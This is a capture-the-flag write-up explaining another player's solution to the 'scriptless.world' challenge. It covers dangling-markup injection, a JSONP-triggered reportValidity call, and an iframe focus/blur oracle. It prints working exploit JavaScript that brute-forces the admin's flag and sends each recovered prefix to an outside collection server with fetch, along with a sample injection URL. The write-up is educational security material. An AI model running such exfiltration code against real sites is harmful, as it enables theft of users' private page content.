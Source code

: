 This writeup is based on my understanding of [Terjanq solution](https://gist.github.com/terjanq/cd146e97fac07db1c15e6037af7644e0), I didn't solved the challenge in the competition neither after the competition.

Some **Terjanq** words

### Chall:
1. The flag was in the body of the page in form of `<strike>CTF-BR{flag}</strike>` visible only to admin.
2. There was a simple HTML Injection endpoint that happened before the flag.
3. The goal was to retrieve that flag by sending a URL to the page to admin.

### Rules:
1. CSP: `default-src 'none'; script-src 'self'; form-action 'none'; base-uri 'none'; sandbox allow-scripts;`
2. Blocked characters in HTML Injection: `/[:&%#]/`
3. Allowed characters in JSONP: `/^[a-z.]+$/`

___

### The constraints:

There are multiple constraints which make us unable to leak the flag from the admin.

* We can't run injectable javascript using the `name` parameter since CSP will block it.
* We can run some javascript which will be not blocked, using the JSONP callback. But this javascript code is very limited. So we can't do thing like `fetch('my-server.com/?leak=' + flag)`

Here is when `Solution part 0.` comes in. We'll redirect the admin to a page that we own, in that page, we'll have the **Terjanq** solution.

___

### Escenario now has changed. The admin is on a page that we control.

I'll try to explain some technical stuff which are used in the solution.

#### reportValidity
Let assume we have something like this.
```html
<input id=x value='my-flag' patter='my-f[^b].*'>
```
The pattern is asking for a prefix `my-f` then any character which is not a `b`, finally, any character. So if we run:
```javascript
ok = document.getElementById('x').reportValidity()
```
The value of *ok* will be `true` since the pattern match.

Another thing to take in count is, if the pattern doesn't match, the element `x` will gain focus.

#### Dangling markup

[What is injection?](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

With this injection we'll capture the flag inside the value of an input tag.

https://scriptless.world/?name=%3Cinput+value=%27 If we inpect the source code of that page. We'll see that a big part of the HTML content is inside of the value attribute. Note that the flag part is inside it.
___


If we now check the `go` function
``` javascript
async function go(prefix){
    for(let c of alph){
        let r = await test(prefix, c);
        if(r) {
            prefix += c;
            fetch('https://extract.server/x?f='+prefix)
            go(prefix);
            break;
        }
    }
}
```

It will try different patterns for the flag. With each pattern, it will run the `test` function:
```javascript
async function test(prefix, letter){
    return new Promise(r=>{
        let x = document.createElement('iframe');
        document.body.appendChild(x);

        x.focus();
        let win = x.contentWindow;
        let doc = x.contentDocument;
        win.onblur = () => r(1);
        let i = doc.createElement('iframe');
        i.src = URL.replace('PREFIX', prefix).replace('LETTER', letter)
        doc.documentElement.appendChild(i);
        i.onload = () => {
            console.log(/load/);
            r(0);
            x.remove();
        }
    })
}
```
Let see what the `test` functions does:

1. It will create an iframe, lets call it `x`
2. It will give focus to this iframe.
3. It will add a function to the event `onblur` which will end the promise with the value of `1`.
4. It will create a new iframe, lets call it `i`, inside the iframe `x`.
5. It will load the iframe `i` with the `URL` variable.

**Lets stop a moment here**
The URL variable is used for multiple purposes

1. URL will load the scriptless.world page. This page will have the flag in the HTML code.
2. Using the JSONP, URL will make able to run `x.reportValidity()`. Note here that it'll be call with a string as a parameter, but this doesn't matter.
3. URL will inject a HTML tag. `<input id=x patter='a pattern here' value='`. Note that the tag isn't close and also `value` attribute has only one single quote. Here is when [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) comes in to the game.
4. Because of the dangling markup. The value of the input `x` will have a lot of trash, the flag and finally more trash. (That's why URL has a long pattern, it's to match the trash before the flag)

To summerize, URL will:
* Inject an input tag with a pattern and a value. The value contains the flag.
* Inject a script with the JSONP call, which will run reportValidity.

Getting back to the test function, after the step 5, there are two thing that could happen:

* If the current pattern doesn't match. (Note the way the pattern is made), `reportValidity` will return false and iframe `i` will gain focus, so iframe `x` lost focus, which will triger the `onblur` event returning a `1`.
* If the current pattern does match. It'll be because the current prefix of the flag isn't correct. So the Promise response will be `0`.

Finally everytime the prefix is updated, the `go` function make a fetch to a server of or property to look into the logs for the flag.


## Some resources that I used to understand the solution
* [JavaScript Promises In 10 Minutes](https://www.youtube.com/watch?v=DHvZLI7Db8E)
* [JavaScript Async Await](https://www.youtube.com/watch?v=V_Kr9OSfDeU)
* [reportValidity](https://googlechrome.github.io/samples/report-validity/)
* [Dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
